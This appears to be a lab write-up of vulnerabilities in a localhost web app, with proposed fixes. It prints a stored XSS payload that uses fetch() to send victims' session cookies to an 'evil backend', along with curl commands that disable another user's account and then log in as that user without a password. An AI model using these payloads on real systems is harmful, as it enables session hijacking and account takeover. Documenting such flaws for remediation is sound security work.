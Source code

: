 # WRITEUP

## Reflective XSS

Da die Posts nicht sanitisiert werden, können wir mittels Reflective XSS Code einschleusen. Dieser wird dann beim Anzeigen des Posts ausgeführt.

Da React `script`-Tags nicht ausführt, können wir z.B. einen `img`-Tag verwenden.

Session erstellen:

```bash
curl 'http://localhost:8080/login' -s -c - -X POST -H 'Content-Type: application/json' --data-raw '{"username":"alice","password":"always"}' | sed -En 's/^.+session-id[\s\t]+([0-9a-z\-]+)$/session-id=\1/gp'
```

Post mit XSS-Payload erstellen:

```bash
curl 'http://localhost:8080/posts/6203' -X PUT -H 'Cookie: session-id=1' -H 'Content-Type: application/json' --data-raw $'{"title":"Test","content":"<img style=\\"opacity: 0;\\" onerror=\\"fetch(\'http://localhost:9090/stealcookie?\' + new URLSearchParams(document.cookie).toString())\\" src=\\"1\\" />"}'
```

As soon as another user fetches the posts, their session-id cookie is sent to the evil backend.

### Proposed solution

Change the client from using `innerHTML` to `innerText`.

```patch
--- client.js        2025-01-21 10:04:12.944756419 +0100
+++ client.js   2025-01-21 10:01:58.209460306 +0100
@@ -75,7 +75,7 @@
 
 function createElementWithText(tagName, text, cssClass = undefined) {
     const newElement = document.createElement(tagName);
-    newElement.innerHTML = text;
+    newElement.innerText = text;
 
     if (cssClass) newElement.className = cssClass;
     return newElement;
```

## Disable any account

We can disable any account without authorization, due to a flaw in the application that just deletes the password from the "database".

```bash
curl 'http://localhost:8080/users/bob' -X PATCH -H 'Content-Type: application/json' --data-raw $'{"password":"admin"}'
```

Now, Bob cannot log in anymore. Bob is sad.

Taking this further, now we can just log in as Bob by not sending a password to the login endpoint:

```bash
curl 'http://localhost:8080/login' -s -c - -X POST -H 'Content-Type: application/json' --data-raw '{"username":"bob"}' | sed -En 's/^.+session-id[\s\t]+([0-9]+)$/session-id=\1/gp'
```

Now, Bob is not sad anymore - because we are Bob.

## The obvious - Session ID should not be incremental

Come on, the session id is just a number. We can just subtract one from our session id and we are logged in as another user. There isn't even something to demonstrate here, because it's so simple.

## Passwords should be hashed

Nothing more needs to be said.

## Current user should not be stored globally

What even is this?

## Packages are out-of-date
